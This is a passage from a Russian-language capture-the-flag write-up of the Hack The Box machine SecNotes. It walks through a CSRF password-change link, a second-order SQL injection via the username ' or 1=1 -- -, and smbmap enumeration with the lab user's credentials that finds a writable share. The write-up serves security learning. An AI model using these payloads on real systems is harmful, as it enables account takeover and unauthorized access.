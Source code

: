 Обращаю внимание, что нет смысла пытаться сделать это в iframe'е: так как на ссылку будет кликать PowerShell, а не пользователь из браузера, поэтому подобное не сработает:
```html
<html>
    <iframe src="http://10.10.10.97/change_pass.php?password=newpass&confirm_password=newpass&submit=submit"></iframe>
</html>
```

Теперь можем с чистой совестью логиниться as `tyler:newpass`. Сделав это, увидим следующее:

[![port80-browser-7.png]({{ "/img/htb/boxes/secnotes/port80-browser-7.png" | relative_url }})]({{ "/img/htb/boxes/secnotes/port80-browser-7.png" | relative_url }})
{: .center-image}

XSRF в первозданном виде!

# Угон аккаунта Тайлера. Способ 2, SQLi
Рассмотрим второй возможный способ просмотреть заметки Тайлера, появившейся вследствие невнимательности создателя машины. Не откладывая в долгий ящик: форма логина содержит [SQLi-инъекцию второго порядка](https://haiderm.com/second-order-sql-injection-explained-with-example/ "Second Order SQL Injection Explained with Example"). Выяснено путем проб, ошибок и экспериментов. [Позже]({{ page.url }}#sqli-второго-порядка) объясним, откуда она взялась.

Зарегистрировав пользователя с юзернеймом `' or 1=1 -- -` и паролем на свой выбор, авторизовавшись, получим такую картину:

[![port80-browser-8.png]({{ "/img/htb/boxes/secnotes/port80-browser-8.png" | relative_url }})]({{ "/img/htb/boxes/secnotes/port80-browser-8.png" | relative_url }})
{: .center-image}

# SMB-шара Тайлера
Заметка new-site содержит такую sensitive datУ:

[![port80-browser-9.png]({{ "/img/htb/boxes/secnotes/port80-browser-9.png" | relative_url }})]({{ "/img/htb/boxes/secnotes/port80-browser-9.png" | relative_url }})
{: .center-image}

Очень похоже на расшаренный SMB-ресурс.

С помощью smbmap (о котором я рассказывал в [райтапе](https://snovvcrash.github.io/2018/12/17/htb-active.html#smbmap "HTB{ Active } / snovvcrash’s Security Blog") на Active) посмотрим, к чему у нас есть доступ:
```text
root@kali:~# smbmap -H 10.10.10.97 -u 'tyler' -p '92g!mA8BGjOirkL%OG*&'
[+] Finding open SMB ports....
[+] User SMB session establishd on 10.10.10.97...
[+] IP: 10.10.10.97:445 Name: 10.10.10.97
        Disk                                                    Permissions
        ----                                                    -----------
        ADMIN$                                                  NO ACCESS
        C$                                                      NO ACCESS
        IPC$                                                    READ ONLY
        new-site                                                READ, WRITE
```
